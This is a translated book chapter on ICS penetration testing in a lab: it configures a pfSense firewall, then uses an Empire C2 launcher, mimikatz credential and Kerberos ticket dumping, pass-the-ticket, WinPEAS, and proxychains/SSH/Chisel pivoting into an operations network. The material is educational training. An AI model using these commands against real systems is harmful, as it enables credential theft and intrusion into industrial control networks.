



# 第十一章：哇哦…我必须深入

阅读完上一章后，我们已经有了一个立足点/外壳，但接下来怎么办呢？接下来，我们需要了解自己处于哪个位置，并且能访问什么内容。这包括尽可能多地收集信息，获取凭证，映射网络连接，使用代理进行内部网络扫描，以及发现可转移的主机。这个阶段是我们需要穿越系统内部的阶段。我们可以通过使用工具通过代理映射网络，深入挖掘。根据入口点的不同，会有关键信息需要发现，包括线索，这些线索将提供关于低层系统的细节，进而帮助我们接触到物理 I/O。

在本章中，我们将安装一款防火墙，它将允许我们在实验室网络中构建分段。在初步获得网络访问权限后，这通常是人们卡住的地方，并且常常会问，接下来我该做什么？我如何获取管理员权限？接下来去哪儿？本章将帮助解答这些问题。我们将利用 Empire 构建一个 **控制与命令**（**C2**）服务器，从而帮助我们收集凭证，查找可利用的服务，并获得提升的权限。接下来，我们将使用端口转发、SSH 隧道和 proxychains 进一步深入网络，最终攻破工业过程。

在本章中，我们将覆盖以下主要内容：

+   配置防火墙

+   我已经有一个 shell 了，接下来怎么办？

+   提升权限

+   转移

# 技术要求

本章需要以下内容：

+   一台 pfSense 防火墙，你可以从 [`www.pfsense.org/download/`](https://www.pfsense.org/download/) 下载。

+   一台运行 Kali Linux 的虚拟机，并已安装以下工具：

    - `Empire`: [`github.com/BC-SECURITY/Empire/releases/tag/v3.8.2`](https://github.com/BC-SECURITY/Empire/releases/tag/v3.8.2)

    - `mimikatz`: [`github.com/gentilkiwi/mimikatz/releases`](https://github.com/gentilkiwi/mimikatz/releases)

    - `Proxychains`: 通过运行 `sudo apt install proxychains` 安装

    - `chisel`: [`github.com/jpillora/chisel/releases`](https://github.com/jpillora/chisel/releases)

    - `Freerdp2`: 通过运行 `sudo apt install freerdp2-x11 freerdp2-shadow-x11` 安装

你可以在这里查看本章代码的实际操作：[`bit.ly/3lAzYVb`](https://bit.ly/3lAzYVb)

# 配置防火墙

您可能会想，为什么在每一章中，我们都会安装或配置一些新的东西。你可能会想，*为什么我们没有在本书的早些时候安装这些？* 这种思路并没有错，因为我们本可以在本书的前半部分安装所有需要的实验室工具。然而，我认为让自己不断地构建和拆解实验室是非常重要的。这有助于培养适应能力，而适应能力是渗透测试的关键要素。每一章都添加新的元素，能够帮助强化适应能力的实践。

很多厂商提供工业级防火墙，其中一些更具行业认可的品牌有思科（Cisco）、堡垒（Fortinet）、检查点（Checkpoint）、帕洛阿尔托（Palo Alto）、贝尔登（Belden）和莫萨（Moxa）。每个厂商都有其优缺点、技术特点和功能，您可以进一步研究了解。在实施防火墙并在参与过程中遇到它们时，您必须具备高度的适应能力。我曾见过没有安装任何防火墙的网络，也见过那些使用微分段和多层职责分离的网络，这意味着需要许多人合作才能在企业网络中建立连接。通过在我们的实验室中引入防火墙，我们将实现对网络的受控分段。在本节中，我们将安装并配置最新版本的 pfSense（社区版）防火墙。让我们开始吧：

1.  请访问以下链接下载 pfSense 的最新版本。撰写本文时，这是 2.5.1 版本：[`nyifiles.netgate.com/mirror/downloads/pfSense-CE-2.5.1-RELEASE-amd64.iso.gz`](https://nyifiles.netgate.com/mirror/downloads/pfSense-CE-2.5.1-RELEASE-amd64.iso.gz)。

    一旦您获得了 ISO 文件，确保将其加载到数据存储中并启动一个新的虚拟机。我在以下截图中展示了配置时所选择的选项。最重要的部分是网络适配器。我们将在第 4 层放置防火墙，以便它将 **第 5 层：企业层** 连接到 **第 3 层：运营层**，如下图所示：

    

    图 11.1 – 防火墙配置

1.  配置完成后，启动虚拟机并等待初始启动。您将看到 **终端用户许可协议**(**EULA**) 页面。点击 **<接受>**，如以下截图所示：

    图 11.2 – 终端用户许可协议（EULA）

1.  在接受协议后，您将看到三个选项。选择 **安装** 并开始安装 pfSense，如下图所示：

    图 11.3 – 安装 pfSense 选项

1.  接下来，您可以选择根据您的位置更改键盘映射语言。选择任何您想要的语言。我将使用标准的`"US"` 默认选项，如下所示：

    图 11.4 – 键盘映射

1.  键盘映射完成后，我们可以选择如何分区磁盘。我将使用 **自动 (UFS) BIOS** 方法，如下所示：

    图 11.5 – 磁盘分区

1.  安装程序运行完毕后，您可以选择进入终端并在重启之前对防火墙进行一些调整。我选择了 **否**，保持所有默认设置：

    图 11.6 – 最终调整

1.  现在，您可以重新启动系统或直接进入 shell。我选择重新启动系统作为习惯，以确保所有更改在重启之前不会完全生效。选择 **重启** 继续，如下所示：

    图 11.7 – 重启

1.  重启完成后，您将在控制台上看到一系列选项。您还应该看到一个由您的 LABCORP DNS 服务器提供的 DHCP `wan`，以及一个默认的 `lan` 地址，如下所示：

    图 11.8 – 控制台菜单

1.  我们将使用默认的`lan` IP 地址，并打开浏览器通过 web UI 配置防火墙。导航到分配给 LAN 的 IP 地址。在我的例子中，它是 `192.168.3.1`。使用 `admin` 作为用户名，`pfsense` 作为密码登录防火墙：

    图 11.9 – pfSense 登录

    登录后，您将看到 **pfSense 设置** 向导，如下所示：

    

    图 11.10 – 设置向导

1.  接下来，我们必须为 **主机名**、**域** 和 **主 DNS 服务器** 设置**常规信息**选项：

    图 11.11 – 常规信息

1.  接下来需要配置的重要选项是 WAN 接口。将其设置为 `DHCP`，如下所示：

    图 11.12 – 配置 WAN 接口

1.  我们还要确保不会阻止任何 RFC1918 网络，因为我们将把这个防火墙用于内部网络，如下所示：

    图 11.13 – RFC1918 网络

1.  接下来，我们要设置 LAN 接口。对于我们之前在本书中静态配置的子网，我们将地址设置为 `192.168.3.1`，如下所示：

    图 11.14 – LAN 接口

1.  您将有机会更改管理员界面的默认密码，请更改它。接下来，您将被要求重新加载配置，这将需要大约一分钟的时间。重新加载后，您需要将浏览器指向`192.168.3.1`以返回到 Web 界面。重新登录 Web 界面后，您将看到仪表盘，在这里您将看到**系统信息**、**接口**配置和**Netgate 服务与支持**，如下图所示：

    图 11.15 – pfSense 仪表盘

1.  我们希望为我们的 LAN 接口设置一个 DHCP 服务器。请导航到**服务** | **DHCP 服务器**，如以下屏幕截图所示：

    图 11.16 – DHCP 服务器

1.  从这里开始，我们将通过设置以下内容来配置**常规选项**：

    – **子网**：`192.168.3.0`

    – **子网掩码**：`255.255.255.0`

    – **可用范围**：**192.168.3.1 – 192.168.3.254**

    – **范围**：**从` **[192.168.3.100]` – **到` **[192.168.3.199]`

    这是一个供您参考的示例：

    

    图 11.17 – DHCP 服务器

1.  从这里开始，我们将添加一个*配置错误*的 NAT 规则，以允许来自企业的流量与操作系统通信，反之亦然：

    图 11.18 – NAT 选择

1.  现在，我们希望选择**端口转发**并添加一条新规则。您应该看到一个空列表：

    图 11.19 – 端口转发

1.  点击绿色的**添加**按钮后，您将进入**编辑重定向条目**界面。我们将保持大部分选项不变，但必须对源和目标选项进行一些更改。

    以下是我们需要配置的选项：

    – **源**：**类型**（**网络**）| **地址**（**172.16.0.0**）| **掩码**（**24**）

    – **目标**：**类型**（**WAN 地址**）

    – **目标端口范围**：**从端口**（**任意**）| **到端口**（**任意**）

    – **重定向目标 IP**：**类型**（**单一主机**）| **地址**（**192.168.3.10**）

    请参考以下屏幕截图获取一些指导：

    

    图 11.20 – 端口转发/编辑

1.  配置完成并提供**描述**后，请确保点击屏幕底部的**保存**按钮。保存后，您将看到一个弹出窗口，允许您**应用更改**到防火墙。请继续应用您的更改，如下所示：

    图 11.21 – 应用更改按钮

    现在，您应该能看到以下**端口转发**规则：

    

    图 11.22 – 端口转发规则

1.  我们要验证是否已将 **出站 NAT 模式** 设置为 **自动出站 NAT 规则生成**，如图所示：

    图 11.23 – 出站 NAT 模式

1.  最后，我们要通过进入 **防火墙` | **WAN` 来验证我们的 WAN 规则是否已创建。你应该会看到类似这样的规则：

    图 11.24 – WAN 规则

    现在我们的防火墙已配置完毕，我们需要将本书前面使用的 Windows 7 机器快速添加到 `labcorp.local` 域中，用于配置 PLC。让我们开始吧：

1.  为此，我们必须编辑我们的网络接口，并更新 **首选 DNS 服务器** 选项，如图所示：

    图 11.25 – 首选 DNS 服务器

1.  接下来，导航至 **计算机** | **属性** | **系统属性** | **计算机名称**。在这里，将 **计算机名称** 设置为 `OS1`，表示操作员工作站 1。然后，选择 **域** 并将其设置为 `labcorp.local`，如以下截图所示：

    图 11.26 – 计算机名称/域更改

1.  现在，让我们确保我们已连接到域，并且可以使用已知用户进行身份验证。如以下截图所示，我们已使用 `operator1` 登录到 Windows 7 虚拟机：

    图 11.27 – 域连接

1.  我们需要确保实验室操作员可以通过将 `LABCORP\Domain Users` 添加到 **远程桌面用户**，如图所示，来使用 **远程桌面**：

图 11.28 – 域用户作为远程桌面用户

在本节中，我们配置了一个防火墙，以便在企业网络和操作网络之间引入隔离。我们还快速将我们在 *第一章* 中安装的 Windows 7 虚拟机，*使用虚拟化*，连接到我们在 *第十章* 中创建的域，*I Can Do It 420*，并确保 `LABCORP` 用户可以远程桌面访问他们的操作员工作站。在接下来的章节中，我们将学习如何利用这些配置来发现网络中的路径。

# 我有一个 shell，现在该怎么办？

现在是时候回到我们计划的广播任务了。一旦我们获得访问权限，看到那个 Shell 在我们眼前弹出来的瞬间，真是令人激动。然而，艰苦的工作还没有开始。接下来，我们需要了解我们已经进入的环境以及我们能够访问的内容。为此，我们将探索一个叫做`Empire`的后期利用框架。Empire 是一个 C2 框架，用于安装 PowerShell 代理，可以按需传送模块。这些模块包含了我多年来使用的许多工具，因此将它们集中在一起非常方便。Empire 提供了像 winPEAS、Sherlock、Watson、PowerUp、mimikatz 等模块。这些工具有助于自动化数据收集，了解我们所处的系统和环境，并帮助我们为渗透测试奠定一个立足点。

在这一部分，我们将快速安装 Empire，创建一个监听器，构建一个启动器，然后将模块传送到我们的主机。让我们开始吧：

1.  首先，我们需要克隆这个 GitHub 仓库并运行`install`脚本：

    `git clone --recursive https://github.com/BC-SECURITY/Empire.git`

    `cd Empire`

    `sudo ./setup/install.sh`

1.  安装完成后，我们必须运行`./empire`命令。完成此操作后，你将看到一个启动页面，显示你安装的工具版本中的模块总数、监听器数量以及当前活动的代理数量。以我的情况为例，如下图所示，我有`319`个可用于后期利用的模块，且没有监听器和代理正在运行，因为这是我第一次运行 Empire：

    图 11.29 – Empire

1.  接下来，我们需要为即将部署的代理设置一个监听器，以便它们能报告回来。在这种情况下，在`(Empire)** **>` 提示符下，我们可以运行`uselistener`命令，然后按空格键和*Tab*键查看可以使用的选项。我将在这里选择`http`作为我的监听器。之后，你可以输入`info`来列出可用的命令，如下图所示：

    图 11.30 – uselistener http

    在这里，你可以微调你的监听器。在我的情况下，我只更改了`Name`和`Host`选项。我将`Host`设置为我的 Kali Linux IP 地址，即`172.16.0.6`

1.  接下来，我们要创建一个可以安装在*受害者*机器上的启动器。我们将使用`(Empire) > usestager multi/launcher http`命令来实现。这个命令将启动器设置为 multi/launcher，并将其附加到我们在上一步创建的监听器上。当你输入`info`时，你将看到可以更改和调整的选项，用于优化你的代理传输机制。

    在这里，如果你只输入`generate`，默认选项是将结果打印到屏幕上。这允许你将 shellcode 复制并粘贴到受害者的系统中。或者，如果你像我一样懒惰，你可以将`OutFile`选项设置为让 Empire 生成一个`.bat`文件，直接交给受害者。以下是运行`generate`而没有设置文件时的输出：

    

    图 11.31 – Stager shellcode

1.  现在，如果你想设置文件选项，以便将其简单地复制到我们希望攻陷的各种系统上，使用`set OutFile launcher.bat`命令，输入`info`并按下*Enter*。你会看到`OutFile`选项现在已将`launcher.bat`设置为`Value`字段，如下所示：

    图 11.32 – OutFile 设置

    设置文件类型为`generate`并按下*Enter*后，如果一切正常，你应该会看到如下输出：

    

    图 11.33 – 生成

1.  现在，我们要将新创建的`launcher.bat`文件上传到之前被攻破的工作站并运行该文件。上传到工作站的过程我留给你来完成——我使用 Evil-WinRM 通过我们发现的`operator2`凭据创建了一个会话，然后创建了一个`python3 -m http.server`来托管我的`launcher.bat`文件。最后，我使用`curl`抓取该文件并将其传输到工作站，如下图所示：

    图 11.34 – 工作站上的 launcher.bat

1.  运行完文件后，回到你的`(Empire) >`界面并输入`agents`命令。这将列出可用的活跃代理，如下截图所示：

    图 11.35 – 活跃代理

1.  此时，我们已经有了一个正在回传信号到我们 Empire C2 平台的活跃代理——太棒了！接下来的步骤是输入**interact <代理名>**。在我的例子中，应该是`interact 62FRNKHT`。连接后，输入`info`查看可以配置的选项。以下是我收到的输出：

    图 11.36 – 与代理交互

1.  太棒了！此时，我们已经与我们的代理进行交互。现在，让我们开始查看我们的系统及其周围环境。输入`usemodule`命令并按*Tab*键，会显示我们可以访问的模块长列表。这里有 12 个主要类别，每个类别下有多个子模块。以下是这些类别：

    - `code_execution`

    - `collection`

    - `credentials`

    - `exfiltration`

    - `exploitation`

    - `lateral_movement`

    - `management`

    - `persistence`

    - `privesc`

    - `recon`

    - `situational_awareness`

    - `trollsploit`

    查看各个类别及其子模块的内容。如前所述，我们希望收集一些情境意识信息。为此，我们将使用`situational_awareness`类别。在这里，选择`host`和`Seatbelt`模块。要了解有关 Seatbelt 及其强大功能的更多信息，请访问以下链接：[`github.com/GhostPack/Seatbelt`](https://github.com/GhostPack/Seatbelt)。

1.  一旦你将模块类型设置为`info`，使用`usemodule situational_awareness/host/seatbelt`命令查看可用选项。然后，**运行**该模块 – 你应该会看到如下输出：

图 11.37 – Seatbelt 模块

Empire 为正在运行的模块分配一个任务 ID，从而使代理级别的序列化得以进行。模块运行后，你将看到来自代理的反馈，并且会在屏幕上显示。当 Seatbelt 运行时，它将在工作站上执行各种测试，并收集大量信息，这些信息可以轻松填满视觉缓冲区。你可以在`Empire/downloads/<agent name>/agent.log`下找到包含代理执行的测试输出的`agent.log`文件。查看此日志文件时，你会发现有关代理所在主机系统的有趣信息。你将发现正在使用的各种接口、杀毒软件、AppLocker、自动运行程序、环境变量、有趣的文件、有趣的进程等等。以下截图显示了工作站 1 上具有管理员权限的用户列表，这是通过其中一个测试发现的：

图 11.38 – 管理员权限

另一个测试是发现主机上当前存在的 RDP 会话，我们可以通过查看用户名设置为`lab.da`的日志文件来实现，如下所示：

图 11.39 – RDP 会话

这些仅仅是从 Seatbelt 执行的测试中获取的信息片段。然而，当你浏览日志文件时，你会发现`Operator2`没有管理员访问权限，这在获取更详细信息时成为一个问题。这将自然引导我们进入下一节，我们将发现如何提升我们的权限，以深入了解我们的受害机器。

# 提升权限

特权提升是攻击者试图获得超出被攻击用户权限范围的访问权限。特权提升有两种形式：**水平**特权提升和**垂直**特权提升。水平特权提升是指在保持当前用户权限的同时，利用系统策略、软件和文件设置中的漏洞，使当前用户能够访问其他用户的资源、文件和服务。这种类型的特权访问在工业控制系统中很常见，根据我的经验，它足以使系统和进程陷入停滞。另一方面，垂直特权提升是攻击者的过程，他们通过从权限较低的账户逐步提升到系统管理员或域管理员账户。一旦攻击者拥有了域管理员账户，他们就能在被攻陷的网络和基础设施中肆意破坏。

在前一节中，我们安装了 Empire，这使我们能够执行后期利用侦查和态势感知。我们将利用相同的 C2 引擎来运行`privesc`模块。为此，我们将安装我们的`launcher.bat`文件，也就是`operator1`：

1.  正如你在*第十章*中回忆到的，*I Can Do It 420*，我们发现了`operator1`的 NTLM 哈希，并使用 hashcat 破解了它。一旦你在`operator1`下运行`launcher.bat`，返回 Empire 并查看其代理列表。你现在应该看到两个代理已安装，如下所示：

    图 11.40 – 安装 operator1 代理

1.  接下来，我们将通过使用`interact <agent name>`命令与新代理进行交互。在我的例子中，命令将是`interact 1PKZ7G3T`。正如我们在前一节中看到的，系统中有许多模块可以用来执行各种测试和攻击。首先，我们可以使用`credentials/mimikatz/command`模块，它允许我们更改命令并继续运行`mimikatz`。Mimikatz 是一款传奇工具，用于转储系统凭证。要了解更多信息，请访问[`github.com/gentilkiwi/mimikatz`](https://github.com/gentilkiwi/mimikatz)。我们将使用 mimikatz 来转储凭证和票据。然后，利用这些票据，我们将执行`pass-the-ticket`（**PTT**）攻击。PTT 攻击的原理是从**本地安全授权子系统服务**（**LSASS**）的内存中转储 Kerberos 票据。

1.  使用`set Command sekurlsa::logonPasswords`命令，然后输入`run`。你应该会看到以下输出：

    图 11.41 – sekurlsa logonPasswords

1.  一旦模块运行完成，输入`creds`并按*Enter*键。你将看到已经捕获的凭据，这些凭据会被 Empire 自动存储。使用 Empire 的`creds`存储功能是一个关键特性，它将在渗透测试中为你提供极大的帮助。你可以通过运行`logonPasswords`命令查看被发现的凭据：

    图 11.42 – 凭据

1.  这样，你就看到了如何轻松地转储凭据。现在，我们将学习如何轻松地使用 mimikatz 转储票证。我们将设置`Command`选项为`sekurlsa::tickets /export`，然后输入`run`命令。`/export`对象告诉模块将票证导出为`.kirbi`文件。然后，我们可以使用这些票证执行更高级的攻击，如 PTT。Golden Ticket 是指授予用户域管理员权限的票证。Kerberos 被广泛使用，这使它成为一个极好的攻击面，并且由于它的广泛使用，攻击者已找到利用它的方法。所以，为了看看捕获票证有多简单，我们将`Command`设置为`sekurlsa::tickets /export`，并运行它。你应该会看到以下输出：

    图 11.43 – sekurlsa::tickets

1.  在我们的受害者主机上，你将能够找到从运行`sekurlsa::tickets /export`命令导出的`.kirbi`票证，如下所示：

    图 11.44 – .kirbi 票证

1.  现在我们有了`.kirbi`票证，我们可以在受害者机器上使用`mimikatz.exe`并使用`kerberos::ptt <ticket>`命令，如下所示：

    图 11.45 – kerberos::ptt – 传递票证

1.  现在，我们可以通过运行`klist`命令验证 PTT 是否成功。这将列出系统上缓存的票证，让我们能够看到是否成功模拟了该票证：

    图 11.46 – 缓存票证

1.  接下来，我们将运行一个模块，执行自动化测试，帮助找到利用路径。我们将使用 WinPEAS 模块，位于`privesc`类别下。**Windows 特权提升精彩脚本**（**WinPEAS**）允许我们放松并让程序自动运行。在各种测试进行时，我们可以看到输出显示在屏幕上。信息采用颜色编码，这样我们就能轻松发现潜在的入口点。过程中我们会看到有关提升特权的提示和技巧链接。以下截图展示了发现的**基本系统信息**选项：

图 11.47 – WinPEAS 基本系统信息

当我们继续浏览这些信息时，会看到 WinPEAS 提取了更多关于系统的有用信息，比如网络接口和已知主机，如下图所示：

图 11.48 – 网络接口和已知主机

在“网络接口”和“已知主机”下，我们可以看到受害者与之通信的设备列表。我们可以看到 **域控制器** 位于 `.2`，Kali Linux 位于 `.6`，以及我们安装的防火墙位于 `.7`。如果继续浏览 WinPEAS 生成的信息，我们会找到一个 **已保存的 RDP 连接** 部分，如下所示：

图 11.49 – 已保存的 RDP 连接

随着浏览的深入，我们会发现更多内容，甚至可以找到我们用 mimikatz 转储的 Kerberos 票据。以下是使用 WinPEAS 进行 Kerberos 票据发现的一个示例：

图 11.50 – kerberos 票据

我们可以使用各种工具来完成这项工作。在本节中，我们探讨了转储凭证、转储票据、PTT 攻击以及运行 WinPEAS 来寻找提权路径。掌握这些技巧和工具非常重要，因为每个环境都是不同的，每种设置和本地策略也各不相同。你必须灵活并且熟练使用这些工具，以便将它们适应于客户的环境。在下一节中，我们将讨论如何通过环境进行转发，深入接近真实的关键进程。

# 网络转发

渗透测试中最基本且最重要的部分之一就是网络转发。如果你从阅读本书中只学到一件事，那就确保把网络转发技巧牢记在脑中。网络转发是一种利用已被攻破的机器来攻击位于网络更深处的另一台机器的技巧。可以使用多种方法和工具来完成这项任务。你可以使用隧道技术、代理和端口转发来完成这项任务。我们已经涉及到了一些方法，包括使用 pfSense 防火墙的 NAT 规则进行端口转发（在本章中我们做过）和使用 FoxyProxy 进行代理（见 *第九章*），*Ninja 308*。此外，我们还可以使用其他工具，例如：

+   Proxychains

+   SSH 隧道和端口转发

+   Chisel

这些工具将帮助我们探索网络转发。我们将使用这些工具从 Kali 主机转发，通过 Windows 10 工作站，再到我们的 Windows 7 机器，该机器位于我们网络的操作与控制层级。我们的操作将遵循以下网络图中的红色线路：

图 11.51 – 网络转发

首先，我们必须确保 Windows 10 机器正在运行 OpenSSH 服务器，可以通过访问**应用与功能** | **可选功能** | **添加功能**来安装：

图 11.52 – OpenSSH 服务器

安装完成后，你需要通过访问**服务管理器**来启动**OpenSSH SSH 服务器**，如图所示：

图 11.53 – OpenSSH SSH 服务器

这样，我们就可以进行 SSH 隧道连接，并利用 proxychains 通过防火墙向 Windows 7 主机进行跳转。一旦服务器启动，我们可以通过运行`ssh`命令，从 Kali 主机连接到它，进行连接测试。你需要使用 `ssh operator1@172.16.0.4` 命令。成功访问主机后，你会看到类似以下内容的结果：

图 11.54 – SSH Windows 10

如果你使用 `xfreerdp` 测试连接到我们的 Windows 7 主机，你会看到它能正常工作，这意味着当前的 NAT 规则允许整个企业子网访问操作网络。

使用以下命令来测试你的远程连接和 NAT 规则：

xfreerdp /u:operator1 /p:Password1 /v:172.16.0.7

你应该看到我们已成功连接到 Windows 7 的远程桌面。接下来，我们将更改 NAT 访问规则，以确保防火墙只允许来自两个主机的访问。我们希望我们的域控制器位于`172.16.0.2`，以及我们的 Windows 10 主机，位于`172.16.0.4`。下图显示了你新的**端口转发** NAT 规则应该是什么样子：

图 11.55 – NAT 规则

现在，返回并通过再次运行 `xfreerdp` 来测试 NAT 规则。如果规则有效，你应该会看到连接错误，如下图所示：

图 11.56 – 远程连接错误

有了我们的 NAT 规则后，我们可以模拟本章的跳转部分。我们将从设置 proxychains 开始。

### Proxychains

Proxychains 是一个管理动态连接并通过 SOCKS4a/5 或 HTTP 代理重定向连接的程序。Proxychains 就是命令行工具对比 FoxyProxy 对网站的作用。使用 Proxychains 的便利性体现在运行命令时，你只需要在命令前加上 `proxychains`。举个例子，就是将之前的测试命令加上 `proxychains` 后运行：

proxychains xfreerdp /u:operator1 /p:Password1 /v:172.16.0.7

访问 [`github.com/haad/proxychains`](https://github.com/haad/proxychains) 以了解更多关于`proxychains`的信息， 如果你感兴趣的话。

要配置`proxychains`，我们将导航到`/etc/proxychains.conf`，滚动到`[ProxyList]`部分，并添加一行；即，`socks5 127.0.0.1 9000`。端口可以是你希望使用的任何数字。以下是我在实验中使用的文件底部输出：

图 11.57 – proxychains.conf

配置`proxychains`后，我们仍然需要建立一个隧道来利用代理。我们将在下一部分学习如何做到这一点。

### SSH 隧道和端口转发

SSH 隧道使攻击者能够通过已建立的 SSH 会话“隧道”传输不同的协议，并最终避开**入侵检测系统**（**IDS**）。这种做法在*nix*系统中最为常见，但正如你在我们的 Windows 10 主机中看到的，OpenSSH 是一个可以默认启用的功能。

讲故事时间

我无法计数我在职业生涯中听到的次数，来自安全经理们常说他们的环境中禁用了端口`22`/SSH。通常他们会笑着说，他们的基础设施是基于 Windows 的，所以网络中没有 SSH。这在一段时间内确实在网络的企业部分中是成立的，尤其是如果公司没有使用如 SolarWinds 这样的解决方案，它使用 SSH 登录到每个交换机、路由器、网关和防火墙，但在工业领域，很多设备使用 SSH。若干工业安全产品要求在设备上启用 SSH，以便为**北美电力可靠性公司/关键基础设施保护**（**NERC/CIP**）合规性收集数据。

我们可以使用 SSH `-L` 选项创建端口转发，该选项会建立一个到指定端口的链接。运行以下命令：

ssh -L 5555:172.16.0.7:3389 -fn operator1@172.16.0.4

这将通过端口`5555`在本地与我们的远程主机（使用端口`3389`，即远程桌面）建立本地连接。然后，我们可以使用`-fn`选项将 Shell 置于后台并不执行任何命令。最后，我们将使用`operator1`通过我们的 Windows 10 工作站创建隧道，我们知道它可以访问 Windows 7 主机。以下图示展示了我们将尝试的通信路径：

图 11.58 – 端口转发

现在我们已经建立了端口转发和 SSH 隧道，我们可以运行以下命令：

xfreerdp /u:operator1 /p:Password1 /v:localhost:5555

这将打开一个远程桌面会话。如果你打开 Wireshark 并捕获该会话，你将看到*tunnel*连接的结果，如下所示：

图 11.59 – SSH 隧道

现在我们已经涵盖了`proxychains`和 SSH 隧道的基本原理，我将通过使用 SSH `-D` 选项创建一个动态隧道来将两者结合起来。请继续运行以下命令：

ssh -D 9000 -fN operator1@172.16.0.4

与 SSH 端口转发非常相似，不是连接到特定主机上的专用端口，我们可以使用 `-D` 创建代理。现在，我们可以运行以下命令：

proxychains xfreerdp /u:operator1 /p:Password1 /v:172.16.0.7

这将结合 `proxychains` 和我们的 SSH 隧道打开远程桌面窗口。我使用 `proxychains` 和动态隧道，因为它更容易设置，你不需要为每个远程端口进行映射。

### Chisel

Chisel 是一款用 Go 编写的工具，允许攻击者在两台主机之间创建 SSH 隧道，独立于主机的 SSH 软件。如果你在一台没有安装 OpenSSH Server 的 Windows 主机上获得了 shell，那么使用这个工具非常合适。我们需要为将要攻破的系统准备专用的二进制文件。你可以从 [`github.com/jpillora/chisel/releases/tag/v1.7.6`](https://github.com/jpillora/chisel/releases/tag/v1.7.6) 下载这些二进制文件。

我抓取了 `linux_amd64` 和 `windows_amd64` 两个二进制文件。我们需要将 `chisel_windows_amd64` 文件放到我们的 Windows 10 主机上。我想我们在本书中已经涵盖了多种方法，所以我将留给你决定如何将二进制文件传输到目标主机。接下来，我们想在 Kali Linux 主机上设置一个 Chisel 服务器。这样，我们将创建一个 **反向 socks 代理**。运行以下命令：

./chisel server -p 5555 –reverse &

这将告诉 Chisel 创建一个监听 `5555` 端口的反向代理服务器，并在后台运行。如果你想排查连接问题，只需去掉 `&` 符号并运行服务器。你将看到以下结果：

图 11.60 – Chisel 服务器

在我们的 Windows10 主机上，我们希望运行以下 `client` 命令来创建反向代理连接：

chisel.exe client 172.16.0.6:5555 R:socks &

再次去掉 `&` 符号来排查连接问题。你应该能看到以下输出：

图 11.61 – 反向代理

正如你可能已经注意到的，当我们运行 `server` 命令后，最后一行输出显示反向 socks 代理正在监听 `1080` 端口，如下所示：

图 11.62 – 反向代理监听器

为了使用 `proxychains`，我们需要将配置中的端口从 `9000`（用于 SSH 隧道）更改为 `1080`，这是 Chisel 创建的端口。一旦端口创建完成，重新运行 `proxychains` 命令：

proxychains xfreerdp /u:operator1 /p:Password1 /v:172.16.0.7

如果一切正常，你应该能够进入一个经过身份验证的 Windows 7 远程桌面会话：

图 11.63 – 使用 proxychains 的 Chisel 反向 shell

如你所见，通过受信任的工作站、绕过防火墙、进入操作网络，再通过几个简单的命令到达工作站是相当简单的。拥有完全认证的会话可以让我们对操作网络造成破坏，如果我们有意为之，且这符合我们的规则。为此，我们使用了`proxychains`，结合 SSH 隧道，深入网络获取立足点，但我们需要 Windows 10 主机上安装 SSH。为了绕过 SSH 安装要求，我们使用了 Chisel 来获取访问权限。

这些技术展示了单跳的可用性。希望你进入的工业网络较为平坦，这样就足够了，但我知道深度防御得到了广泛应用，这意味着我们必须提升自己的技术，进行多跳渗透。我会把如何使用我们刚刚测试过的工具进行多跳渗透的研究留给你。

# 总结

在本章中，我们探讨了收集凭证和票据的各种工具和技术。我们利用捕获到的*战利品*提升了权限，然后通过我们在本章第一节中安装并配置的防火墙进行横向渗透。我知道我之前说过，但我再重复一遍：正如我已故的朋友特雷弗所说，学习如何进行横向渗透是渗透测试员最基本的技能之一，且永远不要忘记 Smashburger。希望在阅读和完成本章的过程中，你能更好地理解为何拥有一个实验室来启动和拆除系统、在其中穿梭并复制客户的环境是如此重要。

现在我们已经深入到操作网络的一侧，下一章我们将通过使用 Ignition SCADA 的用户界面和脚本与物理过程进行交互。
